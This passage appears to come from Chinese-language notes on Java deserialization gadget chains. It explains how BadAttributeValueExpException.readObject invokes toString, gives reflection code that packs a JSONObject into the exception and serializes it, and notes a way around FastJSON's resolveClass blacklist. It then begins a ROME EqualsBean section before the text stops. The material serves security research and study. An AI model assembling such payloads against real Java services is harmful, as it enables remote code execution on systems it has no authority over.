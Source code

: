 #### BadAttributeValueExpException

**JDK 原生可用**

这个就很简单了，`BadAttributeValueExpException.readObject()`直接走到它里面对象的 toString

代码如下

```bash
Object tpl = null;
        JSONObject jsonObject = new JSONObject();
        jsonObject.put("gg",tpl);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(null);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,jsonObject);
//      用于 Reference 包裹绕过 FastJSon 高版本 resolveClass 黑名单检查，from Y4tacker
/*        HashMap hashMap = new HashMap();
        hashMap.put(tpl,poc);*/
        serialize(poc);
        unserialize("ser.bin");
```

`BadAttributeValueExpException.readObject()`

```bash
private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ObjectInputStream.GetField gf = ois.readFields();
        Object valObj = gf.get("val", null);

        if (valObj == null) {
            val = null;
        } else if (valObj instanceof String) {
            val= valObj;
        } else if (System.getSecurityManager() == null
                || valObj instanceof Long
                || valObj instanceof Integer
                || valObj instanceof Float
                || valObj instanceof Double
                || valObj instanceof Byte
                || valObj instanceof Short
                || valObj instanceof Boolean) {
            val = valObj.toString(); //在这里调用了里面对象的toString()方法
        } else { // the serialized object is from a version without JDK-8019292 fix
            val = System.identityHashCode(valObj) + "@" + valObj.getClass().getName();
        }
    }
 }
```

#### EqualsBean

**依赖于 ROME，在其 1.12.0 版本前均可用**
